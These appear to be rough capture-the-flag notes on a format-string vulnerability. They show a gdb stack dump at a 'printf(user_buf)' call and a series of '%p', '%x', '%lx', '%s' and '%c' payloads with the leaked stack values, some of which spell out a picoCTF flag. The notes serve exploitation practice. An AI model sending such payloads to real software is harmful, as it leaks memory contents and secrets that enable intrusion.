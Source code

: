 ```bash
94      printf(user_buf);
(gdb) x /40x $sp
0x7fffffffddd0: 0x00000d68 0x00000000 0x55559260 0x00005555
0x7fffffffdde0: 0x6f636970 0x7b465443 0x68636167 0x53414269
0x7fffffffddf0: 0x454b5f53 0x635f574b 0x694b7461 0x345f7373
0x7fffffffde00: 0x39363032 0x00000a7d 0x00000001 0x00000000
0x7fffffffde10: 0x0000000a 0x00000000 0x55558098 0x00005555
0x7fffffffde20: 0x55556151 0x00005555 0xf7fab2a0 0x00007fff
0x7fffffffde30: 0x00000000 0x00000000 0xf7e70649 0x00007fff
0x7fffffffde40: 0xf7faf760 0x00007fff 0xf7e70a33 0x00007fff
0x7fffffffde50: 0x00000014 0x00000000 0xf7faf760 0x00007fff
0x7fffffffde60: 0x5555a5c0 0x00005555 0x5555a5a0 0x00005555
(gdb) n
f7faf7e3_f7fb08c0_f7ede3b4_f7fb5500_00000000_00000d68_55559260_6f636970_68636167_454b5f53_694b7461_39363032_00000001_0000000a_55558098_55556151_f7fab2a0_00000000_f7e70649_f7faf760_f7e70a33_00000014_f7faf760_5555a5c0_5555a5a0_00000000_ffffdde0_55559280_ffffdfa0_ffffdec0_5555564e_ffffdfa8_55555120_ffffdfa0_55559260_55555690_f7e1809b_00000000_ffffdfa8_00040000_

# We lose 5th to 8th byte and 12th - 16th byte when we use %x this time... But not for the flag

```

%p_%p_%p_%p_%p_%p_%p_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_

%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%x_%x_%x_

aaaaaaa_%p_%p_%p_%p_%p_%p_%p_%c_%c_%c_%s_%x_bbbbbbbbbb
aaaaaaa_%p_%p_%p_%p_%p_%p_%p_!!!_%c%c%c%c%c%c%c%c%c_!!!_%x_%x_bbbbbbbbbb

aaaaaaa_%p_%p_%p_%p_%p_%p_%p_!!!_%x_!!!_%x_%x_bbbbbbbbbb

aaaaaaa_%p_%p_%p_%p_%p_%p_%p_!!!_%p_!!!_%x_%x_bbbbbbbbbb

aaaaaaa_%p_%p_%p_%p_%p_%p_%p_!!!_%s_!!!_bbbbbb
aaaaaaa_%p_%p_%p_%p_%p_%p_%p_!!!_%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c_!!!_bbbbbb

========
My input
%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_

40 %x

My output

88e8410_804b000_80489c3_f7f1cd80_ffffffff_1_88e6160_f7f2a110_f7f1cdc7_0_88e7180_5_88e83f0_88e8410_6f636970_7b465443_306c5f49_345f7435_6d5f6c6c_306d5f79_5f79336e_63343261_36613431_ffbf007d_f7f57af8_f7f2a440_114f5000_1_0_f7db9ce9_f7f2b0c0_f7f1c5c0_f7f1c000_ffbfa5c8_f7daa68d_f7f1c5c0_8048eca_ffbfa5d4_0_f7f3ef09_

=====================================

My input:
%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_
